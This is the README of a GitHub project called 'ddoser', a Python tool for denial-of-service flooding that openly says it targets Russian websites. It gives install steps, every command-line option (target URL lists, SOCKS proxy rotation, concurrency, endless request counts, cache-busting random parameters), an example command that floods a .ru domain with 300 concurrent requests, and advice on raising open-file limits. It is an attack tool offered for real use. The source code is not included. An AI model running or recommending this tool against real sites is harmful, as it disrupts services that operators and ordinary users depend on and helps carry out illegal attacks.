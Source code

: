 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)  
## Install 
```shell
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT        ddos target url
  --target-urls-file TEXT  path or url to file contains urls to ddos
  --proxy-url TEXT         url to proxy resourse
  --proxy-file TEXT        path to file with proxy list
  --concurrency INTEGER    concurrency level
  --count INTEGER          requests count (0 for infinite)
  --timeout INTEGER        requests timeout
  --verbose                Show verbose log
  --with-random-get-param  add random get argument to prevent cache usage
  --user-agent TEXT        custom user agent
  --log-to-stdout          log to console
  --help                   Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
...
ipN:portN#sock4
```
### Example cmd
```shell
./ddoser.py --target-url https://some-domain.ru/ --concurrency 300 --timeout 60 --proxy-file proxy.list --count 0
```
## Notes
**ddoser** supports only sock proxy, also can start it directly without proxy

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000:
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```